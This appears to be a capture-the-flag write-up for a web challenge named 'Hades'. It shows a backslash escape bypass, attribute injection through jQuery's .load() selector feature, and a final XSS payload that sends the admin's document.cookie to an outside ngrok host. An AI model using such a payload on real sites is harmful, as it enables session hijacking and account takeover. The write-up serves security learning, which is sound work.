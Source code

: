 # Hades

## Overview

> Don't stop retrying!

This is basically a site that uses jQuery a bunch of AJAX requests to dynamically load the page content. For example, let's load the "news" category at `?cat=news`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-20 at 2.25.48 PM.png" alt=""><figcaption></figcaption></figure>

Observing the HTML response, the `news` string is reflected twice in the JavaScript.

```markup
<script>
  console.log('cat in url');
  $('#ajax-load').load('/ajax/articles?cat=news');
  $('.search-filter ul li.tag').removeClass('active');
  $('.search-filter ul li[data-id="news"]').addClass('active');
  $('.search-filter ul li.tag').click(function() {
    $('.search-filter ul li.tag').removeClass('active');
    $(this).addClass('active');
    $('#ajax-load').html('<hr/><div class="loading"></div><hr/>');
    $('#ajax-load').load('/ajax/articles-results?cat=' + $(this).data('id'));
  });
</script>
```

Trying to use a single quote to break out of the string (`/?cat=news'`) doesn't work - a `\` is prepended to it.

```javascript
$('#ajax-load').load('/ajax/articles?cat=news\'');
```

After doing some testing, I found that the `\` character isn't escaped and `/?cat=news\\'` breaks out of the string.

However, because any `()` characters are removed and subsequent quotes are still escaped, I couldn't produce valid JavaScript after breaking out of the string.

```javascript
$('#ajax-load').load('/ajax/articles?cat=test\\'+alert``');
$('.search-filter ul li.tag').removeClass('active');
$('.search-filter ul li[data-id="test\\'+alert``"]').addClass('active');
```

It seems that we need to find another way to achieve XSS.

## Getting XSS

The first line of the JavaScript tells jQuery to fetch `/ajax/articles?cat=news` and set its contents as the HTML of the `#ajax-load` element.

```javascript
$('#ajax-load').load('/ajax/articles?cat=news');
```

Because we also control the `cat` parameter in this second request, we can try to find a HTML injection vector in `/ajax/articles` and inject it into `#ajax-load`.

The following request

```
/ajax/articles?cat=asdf"x="
```

injects an attribute into the `<img>` element in the response.

```markup
<noscript>
    If you can't see anything, you have to enable javascript
    <img src="/images/error.jpg" alt="selected category asdf"x="" />
</noscript>
```

Looking at jQuery's [`.load()` documentation](https://api.jquery.com/load/), we find an interesting feature that allows us to specify a specific portion of the remote document that we want to insert.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-20 at 2.55.38 PM.png" alt=""><figcaption></figcaption></figure>

This allows us to get rid of the pesky `<noscript>` tag end _only_ load the `<img>` element inside.

```
/?cat=random"onerror="alert`` img
```

will render

```markup
<img src="/images/error.jpg" alt="selected category random"onerror="alert``" />
```

and give us XSS.

We can use the following payload to steal the admin's cookie and get the flag.

{% code overflow="wrap" %}
```
/?cat=random"onerror="window.location=`https://f5e6-49-245-33-142.ngrok.io?${document.cookie}` img 
```
{% endcode %}
